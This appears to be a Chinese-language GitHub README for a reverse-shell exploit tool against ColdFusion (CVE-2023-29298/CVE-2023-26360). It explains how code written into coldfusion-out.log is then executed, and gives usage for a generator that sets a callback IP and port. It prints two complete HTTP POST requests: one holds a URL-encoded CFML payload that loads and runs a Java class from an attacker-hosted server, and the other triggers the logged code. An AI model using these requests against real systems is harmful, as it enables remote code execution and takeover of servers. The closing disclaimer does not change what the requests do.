



> CVE-2023-29298/CVE-2023-26360漏洞利用反弹工具

## 简介

漏洞原理是我们构建CFML数据客户端请求的数据会保存到服务器的`coldfusion-out.log`，这个目录会记录请求的错误的信息，coldfusion-out.log文件里面就有我们写入的代码了，然后我们使用classname读取执行这个日志文件达到代码执行的效果

这边我有一个思路，就是通过把恶意的class放到服务器上面，然后下载保存调用这个class文件，调用通过上面的这个漏洞他会去动态的加载类，去调用执行我们的class文件

这个写一个脚本，这个脚本会生成一个压缩包，这个压缩包里面

压缩包code目录下

```
utilize
    ├── address
    └── Poc.class
```

Poc.java里面主要存放反弹的代码

address存放地址和端口

上面的功能实现起来是非常非常麻烦的我写了一个自动化生成的工具，构建java的字节码文件，然后设置反弹的IP和端口，然后开启web

## 工具使用

```
工具名称 -host 指定反弹IP -port 指定反弹端口 -p 指定http端口（默认8888）
```



看一下



然后我们请求写入日志错误代码，下面的post的数据部分的http://192.168.191.58:8888/GjfZgo改成服务启动在的地址

```http
POST //cf_scripts/scripts/ajax/ckeditor/plugins/filemanager/iedit.cfc?method=zfgea&_cfclient=true HTTP/1.1
Host: 192.168.56.105:8500
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Length: 816
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Connection: close

_variables=%7b%3ccftry%3e%3ccfset%20szlh%20%3d%20createObject%28%27java%27%2c%27java.net.URL%27%29.init%28%27http://192.168.191.58:8888/GjfZgo%27%29/%3e%3ccfset%20cafb%20%3d%20createObject%28%27java%27%2c%27java.lang.reflect.Array%27%29/%3e%3ccfset%20ireh%20%3d%20cafb.newInstance%28szlh.getClass%28%29%2c1%29/%3e%3ccfset%20cafb.set%28ireh%2c0%2cszlh%29/%3e%3ccfset%20fxlt%20%3d%20createObject%28%27java%27%2c%27java.net.URLClassLoader%27%29.init%28ireh%2cjavaCast%28%27null%27%2c%27%27%29%29/%3e%3ccfset%20fxlt.loadClass%28%27code.Payload%27%29.newInstance%28%29.main%28javaCast%28%27null%27%2c%27%27%29%29/%3e%3ccfcatch%20type%3d%27any%27%3e%3c/cfcatch%3e%3ccffinally%3e%3ccffile%20action%3d%27write%27%20file%3d%27%23GetCurrentTemplatePath%28%29%23%27%20output%3d%27%27%3e%3c/cffile%3e%3c/cffinally%3e%3c/cftry%3e
```

然后执行日志里面的代码，固定的写死的直接发送

```http
POST //cf_scripts/scripts/ajax/ckeditor/plugins/filemanager/iedit.cfc?method=zfgea&_cfclient=true HTTP/1.1
Host: 192.168.56.105:8500
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Length: 85
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Connection: close

_variables={"_metadata":{"classname":"l/../logs/coldfusion-out.log"},"_variables":[]}
```

执行看一下，上线了



## 免责声明

\1. 该安全工具仅供技术研究和教育用途。使用该工具时，请遵守适用的法律法规和道德准则。

\2. 该工具可能会涉及安全漏洞的测试和渗透测试，但请在授权的范围内使用，否则和作者无关。

\3. 使用该工具可能会涉及到一定的风险和不确定性，用户应该自行承担使用该工具所带来的风险。

\4. 使用本工具的用户应自行承担一切风险和责任。开发者对于用户使用本工具所产生的后果不承担任何责任。